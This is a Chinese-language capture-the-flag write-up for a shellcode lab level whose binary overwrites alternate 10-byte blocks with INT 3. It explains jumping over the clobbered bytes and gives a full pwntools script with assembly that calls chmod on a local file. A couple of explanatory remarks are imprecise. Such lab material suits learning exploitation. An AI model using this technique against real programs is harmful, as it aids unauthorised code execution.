 # 挑战简介
此挑战通过用 0xcc 覆盖每隔 10 个字节来修改您的 shellcode。0xcc 在被解释为
指令时是 `INT 3`，这是调用调试器的中断。您必须避免在 shellcode 中进行这些修改。

# 思路

分析题目意思，结合level8的执行结果，可以得知：  
**每执行10个字节，接下来的10个字节会强制改变成int3(另一种syscall)**  
如果出现这种字节，也就意味着，后面的字节会变成无法执行(21-30)  
所以每次我们输入的有效字节只有8个，预留两个字节进行跳转，无效的字节位置则写入nop即可，用于填充  
我们选择参照level8的shellcode注入  

```
#!/usr/bin/python
from pwn import *
import struct
import os
cache_dir = '/tmp/.pwntools-cache'
if not os.path.exists(cache_dir):
    os.makedirs(cache_dir)

context(os='linux', arch='amd64', log_level='debug', cache_dir=cache_dir)

p = process('/challenge/babyshell-level-9')

p.recvuntil('Reading 0x1000 bytes from stdin.\n')

shellcode = asm('''
    push 0x66
    mov rdi, rsp
    push 4

_stage:
    pop rsi
    jmp short skip
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
skip:
    push 90
    pop rax
    syscall
    ret
    ret
    ret
''')


# 为安全起见，打印完整的shellcode十六进制表示
print("Shellcode十六进制:", shellcode.hex())
print("Shellcode长度:", len(shellcode), "字节")

p.send(shellcode)

# 与shell交互
p.interactive()
p.recvall()
```
